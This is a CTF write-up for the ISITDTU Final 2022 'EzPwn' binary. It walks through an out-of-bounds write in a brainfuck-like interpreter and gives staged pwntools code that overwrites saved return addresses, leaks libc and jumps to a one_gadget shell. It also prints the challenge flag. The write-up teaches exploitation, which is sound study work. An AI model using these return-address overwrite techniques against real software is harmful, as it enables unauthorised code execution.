



# ISITDTU Final 2022 - EzPwn

You can download challenge files here: [game.zip](../EzMisc/game.zip)

There are 3 files in zip:
- game
- libc.so.6
- ld-linux-x86-64.so.2 (added later)

Download, extract and patch the libc to the binary with the following commands:

```bash
patchelf --replace-needed libc.so.6 ./libc.so.6 ./game
patchelf --set-interpreter ./ld-linux-x86-64.so.2 ./game
```

Now, let's get started!

# 1. Find bug

If you haven't read my writeup for challenge [EzMisc](https://github.com/nhtri2003gmail/CTFWriteup/tree/master/2022/ISITDTU-Final-2022/EzMisc), I recommend you to read it first because we will need to enable the option 3 for this challenge. I will assume that you have read that writeup and we will find another bug in option 3, function lang_interpreter():


When we have access to option 3, the program will ask us source code and then check byte to byte to make sure the byte is the character `<` or `>` or `+` or `-`. At the for loop at the end, it checks all the bytes one by one and if the byte is `>` or `<`, it increases or decreases the index `v3` by 1 and if the byte is `+` or `-`, it adds or subtracts the current value at `s[v3]` by 1. It looks similar to a programming language called [brainfuck](https://en.wikipedia.org/wiki/Brainfuck).

By increasing index `v3` more and more, we can make `s[v3]` point out of the array `s` --> **Out Of Bound**. That means we can change addresses after the array `s` relatively by adding or subtracting a byte with 1.

That's all we should know, let's move on!

# 2. Idea

We know that we can change the address after array `s` relatively so we first need to know what address we will write by analizing stack. Let's set breakpoint at the function read_str() right after the command `printf("Enter source code: ")`. Run to that breakpoint and check the stack:


The most interesting targets will be saved rbp and saved rip of all three functions lang_interpreter(), run() and main(). The mmap address is `0x00155555551000` which might be a good target too but for me, address returned from mmap can be different because of differences in architect of computer as I learnt from ASCIS ctf. Therefore, we will not care about the mmap address and just focus on saved rbp and saved rip.

Now, we have nothing in our hand, we have neither libc address nor binary address, but we still can change the saved rip to the address we want, such as change saved rip of main() into one_gadget. That's a great idea right? Let's see if it's possible:


Let's set breakpoint at return of main and check the registers to see which one_gadget is usable:


So `rdx` is null and `[rsi]` is our control so we can set it to null so the last one_gadget is good for use. But wait, `rbp` is 1, not a valid address so the constraint `address rbp-0x78 is writable` is still the problem. How about changing saved rip of main into system? Yeah we can do that but how can we set rdi to a pointer points to string `/bin/sh`? Binary gadgets are limited and don't have any gadgets for rdi. Libc gadgets are a lots but we have just 1 libc address at saved rip of main, we cannot change the mmap address to libc gadget because it's not sure that the mmap address is near libc:


We have nothing so exploiting is difficult. Let's try leaking some addresses, whatever libc or binary address is still good to use. The idea is to find if any function return with rdi is a pointer points to libc or binary address or not. After looking around, we see that the option 1, function play_game() will return with rdi is a pointer point to a libc address after the function printf at the end executed:


So if we just make it executes that printf command and then it leaves, it jump to function puts or printf again and we can leak that address out, after that we can try to jump back to main again to see if it works (and luckily, it worked). So the idea is to overwrite the saved rip of lang_interpreter() into the last printf of play_game(), change saved rip of run() into the execution of puts in play_game() or in read_motd() (option 2) to leak libc address and overwrite the saved rbp to make it point to another place and when the program leaves and returns after leaking, it will jump to main again.

With the libc address in hand, we can input the address of one_gadget at wherever we want and write a writable address to saved rbp to make one_gadget pass all constraint.

Summary:
- Stage 1: Enable option 3
- Stage 2: Leak libc address
- Stage 3: Get shell

# 3. Exploit

### Stage 1: Enable option 3

We will use the script at my EzMisc writeup:

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./game")
libc = ELF('./libc.so.6')
p = process(exe.path)
# p = remote("20.121.188.64", 31337)

p.sendlineafter(b'choice: ', b'1')
p.sendafter(b'string: ', b'\x01'*0x100)
p.sendafter(b'number: ', str(0x80000000).encode() + b'\n')
p.sendafter(b'number: ', str(0xffffffff).encode() + b'\n')
```

### Stage 2: Leak libc address

Let's check the stack again when we input source code:


So we will change the saved rip of lang_interpreter() `0x00555555555846` into the last printf of play_game() `0x005555555554fd`, payload for this can be:

```python
payload = b'>'*0x98
payload += b'+'*0xb7
payload += b'>'
payload += b'-'*0x4
```

Check again and we jump to printf of play_game() now:



Let's overwrite the second saved rip, the one of run() into the puts function with the string `Second magic number cannot be zero!` but we will not get the string to rdi of play_game() with this payload:

```python
# continue with the payload above
payload += b'>'*(7 + 0x18)
payload += b'+'*0x82
payload += b'>'
payload += b'-'*0x5
```

Check again and the program works as our expect:


We got libc address leaked:


Let's get that address and calculate the base address of libc with the following code (you can get the offset by subtracting the leak address with the base one):

```python
libc_leak = u64(p.recv(6) + b'\0\0')
libc.address = libc_leak - 0x620d0
log.info("Libc leak: " + hex(libc_leak))
log.info("Libc base: " + hex(libc.address))
```

The output looks like this:


Very good! Let's try with server to confirm that our way is good to go:


Nice, we have the libc base address now. The only problem is that how we can make the program jump back to main. Let's look at the stack when inputing source code again:


We will not use the saved rip of main() now because that's not main address. However, we can see that there is an address of function main right after that saved rip of main at stack address `0x007fffffffdfe8`. It's time to change saved rbp, we will change the saved rbp of run() so when it executes leave, the stack will be `0x007fffffffdfe0`, not `0x007fffffffdfd0` as original. The payload to change saved rbp will be inserted before we change the saved rip:

```python
# saved rbp of run() -> another saved rbp
# 0x007fffffffdfd0   -> 0x007fffffffdfe0
payload += b'>'*(7 + 0x10)
payload += b'+'*0x10

# saved rip of run() -> puts of play_game
# 0x0055555555592a   -> 0x005555555554ac
payload += b'>'*0x8
payload += b'+'*0x82
payload += b'>'
payload += b'-'*0x5
```

Before it executes leave:


After it executes leave:


Bingo, we return at main now. But continue executing will make the program crash:



It's all about register xmm1, that is because stack is not aligned correctly. To avoid that, we will not let the function main() execute `push rbp` and start running at `mov rbp, rsp`:


So we will need to change the address of main where we return from `0x0055555555586d` to `0x00555555555872` and we have the following payload:

```python
# change main      -> main + 5
# 0x0055555555586d -> 0x00555555555872
payload += b'>'*(7+0x38)
payload += b'+'*0x5
```

Check again and the program run smoothly:


To run as a child thread, run this command in gdb before it executes fork: `set follow-fork-mode child`

Phew, we can leak the libc address out and that's all for this stage. Take a rest and let's get shell now!

### Stage 3: Get shell

When we jump back to main, we try to choose option 3 immediately but it let us go through, so we don't need to trigger the bug to set `new_chunk[64]` to 0 again. Anyway, let's check the stack when we input source code after we get the address leaked:


If we let the program run normally, the program will get segfault when main return. The idea is to write fake saved rbp, which satisfy the constraint of one_gadget, and fake saved rip, which is the address of one_gadget, to the char array `s` and change saved rbp of lang_interpreter to our fake saved rbp. So first, let's write a writable address and one_gadget to array `s` first:

```python
payload = b''
# Write fake saved rbp
for i in range(0, 48, 8):
    payload += b'+'*( ((libc.address + 0x21a000) >> i) & 0xff)
    payload += b'>'
payload += b*2

# Write one_gadget
libc.sym['one_gadget'] = libc.address + 0xebcf8
for i in range(0, 48, 8):
    payload += b'+'*( (libc.sym['one_gadget'] >> i) & 0xff)
    payload += b'>'
payload += b*2
```

Let's check if we write correctly or not:


Next, if we change saved rbp of lang_interpreter from `0x007fffffffdfc0` to our fake saved rbp at `0x007fffffffdf10`, we can pass the constraints of one_gadget. Meanwhile, before it executes leave to jump to our one_gadget, it's still in run and the check of `while` loop in run() also pass the check because it will take the address `0x00555555558040` added with `0x104`, check the data of that address and will exit if there is something in it (it's our payload so of course there are somethings in it).

So we will change the saved rbp of lang_interpreter() with this code:

```python
# saved rbp of lang_interpreter() -> fake saved rbp
# 0x007fffffffdfc0                -> 0x007fffffffdf10
payload += b'>'*0x80
payload += b'-'*0xb0
```

So now let's check if we can execute our one_gadget or not:


Yay let's get shell now!


Hm no shell!?? Let's debug to see what was happening:



Oh you see? rdx is 0x10, it's not null. As we have analyzed above, rdx is null but now it's not, what has happened?

Let's look at assembly code of lang_interpreter() again, we see that when we use `+` or `-`, the byte affected is moved to `dl`, then is added or subtracted by 1 and moved back to the stack. So that's the cause. Our idea now is move index `v3` to make `s[v3]` point to a null byte and then make it add that byte and subtract that byte so `dl` will change from `0` to `1` and back to `0`, as what we want:

```python
# set rdx to null, move backward to the null byte of canary
payload += b'<'*8
payload += b'+-'
```

Now we are good to go:


That was when we disable ASLR with parameter `NOASLR`. If we run with ASLR, we need to run sometimes to get shell because of randomization of stack:


So we can remote to server and get flag now.

Full script: [solve.py](solve.py)

# 4. Get flag


Flag is `ISITDTU{f2a605f6afeb2e2db60abe4edc4c8d262bb3fc171021a60ac071096b1aba1f3a}`